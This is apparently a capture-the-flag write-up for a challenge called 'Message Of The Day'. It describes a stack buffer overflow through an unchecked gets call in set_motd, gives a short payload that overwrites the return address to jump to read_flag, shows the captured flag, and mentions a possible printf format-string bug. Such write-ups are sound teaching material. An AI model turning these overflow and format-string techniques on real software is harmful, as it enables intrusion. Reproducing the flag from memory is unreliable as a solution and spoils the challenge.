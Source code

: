 # Message Of The Day

I was not expecting a repeating challenge, but this one is easy so I'm not going to dive too deep.

The function `0x60606137 set_motd` is using a `gets` without any verifications,
it means we can redirect the flow to the function that prints the flag `0x606063A5 read_flag`

```
func = 0x00000000606063A5
conn.sendline('A' * 0x108 + struct.pack('<Q', func))
```

```
New msg: New message of the day saved!
Admin MOTD is: CTF{m07d_1s_r3t_2_r34d_fl4g}
```

Also there might be a `printf` exploit inside `0x606061A4 get_motd`, just in case the overflow isn't enough for you :)